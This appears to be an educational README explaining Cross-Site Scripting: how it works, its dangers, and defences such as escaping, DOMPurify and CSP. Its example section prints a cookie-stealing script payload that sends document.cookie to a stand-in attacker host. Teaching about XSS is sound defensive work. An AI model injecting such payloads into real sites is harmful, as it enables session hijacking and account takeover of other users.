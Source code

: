 # ❗ What is Cross-Site Scripting (XSS)?

**Cross-Site Scripting (XSS)** is a type of security vulnerability that allows an attacker to inject **malicious JavaScript code** into webpages viewed by other users.

> Despite the name, XSS is **not about cross-origin requests** or "crossing sites" in the traditional sense. It’s about injecting scripts **into a site** that then get executed **in the browser of another user**.

---

## 🤔 Why is it called "Cross-Site Scripting"?

The term comes from the early days of the web when attackers would inject malicious scripts that **crossed from one site into another** via shared cookies or sessions. To avoid confusion with "Cascading Style Sheets (CSS)," the name was abbreviated as **XSS**, not CSS.

So, while the name isn't very intuitive, the idea is:

> "A script written by an attacker is executed in the browser of another user — **inside the context of a trusted site.**"

---

## 🚨 How XSS Works

1. A website reflects or stores user input (like comments, profile names, search queries) **without sanitizing it.**
2. An attacker injects JavaScript code into that input.
3. When a user visits the page, that script **runs in their browser**.

---

## 🔥 Why XSS is Dangerous

If an attacker can execute JavaScript in another user's browser, they can:

* Steal session cookies and impersonate the user
* Access `localStorage`, `sessionStorage`, or other sensitive browser data
* Perform actions on behalf of the user (like transferring funds)
* Deface or rewrite the page content
* Trick users into entering passwords into fake login forms
* Escalate into full account takeover or even administrative control

---

## 🧠 Real Example

If a comment form doesn’t sanitize input:

```html
<input value="<script>fetch('http://attacker.com?c='+document.cookie)</script>">
```

Then any user viewing that comment triggers the script — their cookie is sent to the attacker.

---

## 🔐 Defenses Against XSS

* **Escape HTML** before rendering user input (or better: don’t render HTML at all)
* **Use a frontend sanitizer** like [DOMPurify](https://github.com/cure53/DOMPurify)
* **Enable Content Security Policy (CSP)** to block inline scripts
* **Avoid `innerHTML`** and prefer safer DOM APIs
* **Never use `eval`, `new Function`, or string-based `setTimeout` with user input**

---

## ✅ Summary

| Aspect         | Explanation                               |
| -------------- | ----------------------------------------- |
| XSS stands for | Cross-Site Scripting                      |
| Name origin    | Historical, not very intuitive            |
| Goal of attack | Inject and execute JS in victim's browser |
| Risk level     | Extremely dangerous                       |
| Protection     | Sanitize input, use CSP, secure DOM usage |

---

> **XSS is one of the most common and dangerous vulnerabilities in web applications.** It doesn’t just affect users — it can compromise entire systems if exploited well.
